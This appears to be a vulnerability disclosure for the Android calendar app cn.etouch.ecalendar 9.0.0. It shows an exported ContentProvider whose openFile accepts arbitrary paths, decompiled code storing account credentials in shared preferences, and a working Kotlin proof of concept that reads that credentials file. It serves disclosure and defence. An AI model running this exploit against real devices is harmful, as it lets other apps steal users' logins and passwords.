

# cn.etouch.ecalendar

- package: cn.etouch.ecalendar
- version: 9.0.0

The Chinese Perpetual Calendar is the highest-ranking calendar application on the market. It exposes a Content Provider to the outside world. Its original intention is to provide skin pictures for weather gadgets. However, because the openFile method does not perform any filtering or inspection on the external incoming URI, attackers Can read any file, including user sensitive information.

```xml
<provider
    android:name="cn.etouch.ecalendar.provider.WidgetSkinProvider"
    android:exported="true"
    android:authorities="cn.etouch.ecalendar.cacheprovider"/>
```

```java
public class WidgetSkinProvider extends ContentProvider {

    public static final Uri f18830n = Uri.parse("content://cn.etouch.ecalendar.cacheprovider");

    @Override // android.content.ContentProvider
    public int delete(@NonNull Uri uri, String str, String[] strArr) {
        return 0;
    }

    @Override // android.content.ContentProvider
    public String getType(@NonNull Uri uri) {
        return uri.getQueryParameter("type");
    }

    @Override // android.content.ContentProvider
    public Uri insert(@NonNull Uri uri, ContentValues contentValues) {
        throw new UnsupportedOperationException("Not yet implemented");
    }

    @Override // android.content.ContentProvider
    public boolean onCreate() {
        return false;
    }

    @Override // android.content.ContentProvider
    public ParcelFileDescriptor openFile(@NonNull Uri uri, @NonNull String str) throws FileNotFoundException {
        String path = uri.getPath();
        if (!TextUtils.isEmpty(path)) {
            return ParcelFileDescriptor.open(new File(path), DownloadExpSwitchCode.BUGFIX_GETPACKAGEINFO_BY_UNZIP);
        }
        throw new FileNotFoundException("path is null");
    }

    @Override // android.content.ContentProvider
    public Cursor query(@NonNull Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        return null;
    }

    @Override // android.content.ContentProvider
    public int update(@NonNull Uri uri, ContentValues contentValues, String str, String[] strArr) {
        throw new UnsupportedOperationException("Not yet implemented");
    }
}
```

```java
    private void m74626b() {
        String packageName = this.f11513d.getPackageName();
        File file = new File("/data/data/" + packageName + "/shared_prefs/eCalendarSync.xml");
        m74627a();
        if (file.exists()) {
            SharedPreferences sharedPreferences = this.f11513d.getSharedPreferences("eCalendarSync", 0);
            String string = sharedPreferences.getString("userUID", "");
            if (!string.equals("")) {
                m74622f(1, string, true);
            }
            String string2 = sharedPreferences.getString("userAcctk", "");
            if (!string2.equals("")) {
                m74622f(2, string2, true);
            }
            long j = sharedPreferences.getLong("LastSynTX", 0L);
            if (j != 0) {
                m74622f(3, j + "", false);
            }
            long j2 = sharedPreferences.getLong("LastSynTime", 0L);
            if (j2 != 0) {
                m74622f(4, j2 + "", false);
            }
            String string3 = sharedPreferences.getString("userName", "");
            if (!string3.equals("")) {
                m74622f(5, string3, true);
            }
            String string4 = sharedPreferences.getString("userPwd", "");
            if (!string4.equals("")) {
                m74622f(6, string4, true);
            }
            String string5 = sharedPreferences.getString("loginDeviceNumber", "");
            if (!string5.equals("")) {
                m74622f(7, string5, false);
            }
            m74622f(10, sharedPreferences.getString("synClientValue", "and;1.0.0;appchina"), false);
            file.delete();
        }

    public void m74622f(int i, String str, boolean z) {
        try {
            ContentValues contentValues = new ContentValues();
            contentValues.put("key", Integer.valueOf(i));
            if (z) {
                contentValues.put("value", EcalendarLib.getInstance().doTheEncrypt(str, 1));
            } else {
                contentValues.put("value", str);
            }
            SQLiteDatabase sQLiteDatabase = this.f11512c;
            if (sQLiteDatabase.update("SharedPreferences", contentValues, "key=?", new String[]{i + ""}) <= 0) {
                this.f11512c.insert("SharedPreferences", null, contentValues);
            }
        } catch (Exception unused) {
        }
    }
```

PoC:

```java
val uri = "content://cn.etouch.ecalendar.cacheprovider/data/data/cn.etouch.ecalendar/shared_prefs/eCalendarSync.xml"
val pfd = contentResolver.openFileDescriptor(Uri.parse(uri), "r")
val fis = FileInputStream(pfd!!.fileDescriptor)
val buffer = ByteArray(1024)
var length: Int
val sb = StringBuilder()
while (fis.read(buffer).also { length = it } != -1) {
    sb.append(String(buffer, 0, length))
}
Toast.makeText(this, "$sb", Toast.LENGTH_SHORT).show()
```


